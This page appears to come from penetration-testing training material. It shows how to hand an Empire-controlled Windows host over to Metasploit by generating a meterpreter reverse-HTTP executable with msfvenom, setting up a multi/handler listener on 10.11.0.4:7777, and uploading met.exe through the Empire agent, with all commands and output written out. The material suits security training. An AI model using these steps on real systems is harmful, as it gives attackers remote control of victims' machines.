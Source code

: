 
 The Empire agent supports many features.
 
 However, there are often times when we need to use features that are only found in Metasploit.

 Since we can have both Empire and Metasploit shells on the same compromised host, this is actually quite easy.
 
 In PowerShell Empire version 2.4, it was possible to use a meterpreter listener
and the injectshellcode module to inject a meterpreter shellcode directly in
memory from PowerShell. However, in the newest version (2.5) this code is
unfortunately broken.
 
 If a PowerShell Empire agent is active on the host, we can use msfvenom to generate a meterpreter reverse shell as an executable.
 
 kali@kali:~$ msfvenom -p windows/meterpreter/reverse_http LHOST=10.11.0.4 LPORT=7777 -
f exe -o met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 633 bytes
Final size of exe file: 73802 bytes
Saved as: met.exe

 
 We then set up a Metasploit listener using the multi/handler module and the previously-chosen settings:
 
 msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf5 exploit(multi/handler) > set LPORT 7777
LPORT => 7777
msf5 exploit(multi/handler) > set LHOST 10.11.0.4
LHOST => 10.11.0.4
msf5 exploit(multi/handler) > exploit
[*] Started HTTP reverse handler on http://10.11.0.4:7777

 
 Now we switch back to our PowerShell Empire shell and upload the executable:
 
 Empire: S2Y5XW1L) > upload /home/kali/met.exe
[*] Tasked agent to upload met.exe, 72 KB
[*] Tasked S2Y5XW1L to run TASK_UPLOAD
[*] Agent S2Y5XW1L tasked with task ID 12
[*] Agent S2Y5XW1L returned results.
[*] Valid results returned by 10.11.0.22
Empire: S2Y5XW1L) > shell dir
[*] Tasked S2Y5XW1L to run TASK_SHELL
[*] Agent S2Y5XW1L tasked with task ID 3
[*] Agent S2Y5XW1L returned results.
Directory: C:\Users\offsec.corp\Downloads>
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 10/2/2019 11:24 AM 73802 met.exe
..Command execution completed.
[*] Valid results returned by 10.11.0.22 
 